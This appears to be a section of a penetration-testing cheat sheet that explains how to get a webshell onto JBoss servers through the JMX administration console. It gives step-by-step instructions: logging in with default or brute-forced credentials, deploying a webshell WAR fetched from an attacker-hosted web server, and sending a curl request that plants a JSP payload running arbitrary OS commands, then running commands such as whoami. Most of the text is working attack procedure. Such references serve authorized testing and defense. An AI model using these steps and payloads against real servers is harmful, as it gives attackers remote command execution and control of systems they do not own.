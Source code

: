 
#### Technique 3. Webshell upload using a JBOSS administration JMX Web console
```
Example 1
---------
➤ Step 1. Log into the JBoss JMX console by exploiting the presence of default or easy guessable credentials,
	   anonymous access or by performing a brute-force or dictionnary password attack using Burp proxy
	   - Default or weak credentials: admin:admin, sysadmin:sysadmin, ...
	   - Examples of URL:
	     + https://x.x.x.x:9990/console
	     + https://x.x.x.x:8090/jmx-console/
	     + https://x.x.x.x:8080/jmx-console/
	     + https://x.x.x.x:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system:type=ServerInfo
	     + https://x.x.x.x:8080/web-console/ServerInfo.jsp
	     + https://x.x.x.x:8080/invoker/JMXInvokerServlet
	     + https://x.x.x.x:8080/admin-console/
	    
➤ Step 2. Create a WAR file (e.g., webshell.war) with a jsp webshell and host it in a publicly available web server (python -m SimpleHTTPServer 80)
	  
➤ Step 3. On to the JMX Console, browse the URL below and type in the ObjectName filter field "*:service=MainDeployer" 
           then click on “service=MainDeployer”
	   - https://x.x.x.x:8080/jmx-console/HtmlAdaptor?action=displayMBeans

➤ Step 4. Use the “void deploy()” function to deploy a WAR file
	   - Enter the IP address of the Web server and the name of your WAR file in the URL box (in the "ParamValue" field) 
	     + example: x.x.x.x/webshell.war 
	   - Then click the “Invoke” button
	   - The web server should display the message "Operation completed successfully with a return value" 

➤ Step 5.  Execute OS commands using the Webshell 
           - Examples: 
	     + http://x.x.x.x:8080/webshell/webshell.jsp?cmd=whoami&html=true
	     + http://x.x.x.x:9090/webshell/webshell.jsp?cmd=whoami
```
```
Example 2
---------
➤ Step 1. On the command line, type the following cURL request (wrapped for better readability) to deploy a WAR file using the JMX Console:
           $ curl ’http://x.x.x.x:8080/jmx-console/HtmlAdaptor
           ?action=invokeOpByName
           &name=jboss.admin%3Aservice%3DDeploymentFileRepository
           &methodName=store
           &argType=java.lang.String
           &arg0=shell.war
           &argType=java.lang.String
           &arg1=shell
           &argType=java.lang.String
           &arg2=.jsp
           &argType=java.lang.String
           &arg3=%3C%25Runtime.getRuntime%28%29.exec%28request.
           getParameter%28%22c%22%29%29%3B%25%3E%0A
           &argType=boolean
           &arg4=True’

➤ Step 2. Afterwards, arbitrary commands can be run on the host system. 
```